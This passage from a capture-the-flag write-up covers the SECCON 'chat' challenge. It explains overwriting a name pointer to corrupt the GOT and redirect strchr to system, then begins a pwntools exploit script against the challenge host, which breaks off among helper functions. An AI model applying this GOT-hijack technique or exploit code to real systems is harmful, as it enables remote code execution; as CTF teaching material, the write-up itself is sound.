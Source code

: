 
That's right ! If we change the `userC->name` pointer into `0x60302a`, we can start overwriting the content from `0x60302a`. We first filled the GOT entry of `stack_chk_fail` with some printable characters ( now the first character of new user name is printable ! ), then we can start hijack some GOT ! 

Here I decided to hijack `strchr`'s GOT so when the program call `strchr(buf, 10)` ( `buf` stores our input ) it will call `system(buf)` instead.  
```python exp_chat.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "chat.pwn.seccon.jp"
PORT = 26895
ELF_PATH = "./chat"
LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6" # ubuntu 14.04 64bit

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def signup(name):
    r.sendlineafter("> ", "1")
    r.sendlineafter("> ", name)

def signin(name):
    r.sendlineafter("> ", "2")
    r.sendlineafter("> ", name)

def tweet(msg):
    r.sendlineafter(">> ", "4")
    r.sendlineafter(">> ", msg)

def dm(user, msg):
    r.sendlineafter(">> ", "5")
    r.sendlineafter(">> ", user)
    r.sendlineafter(">> ", msg)

def signout():
    r.sendlineafter(">> ", "0")

def change_name(name):
```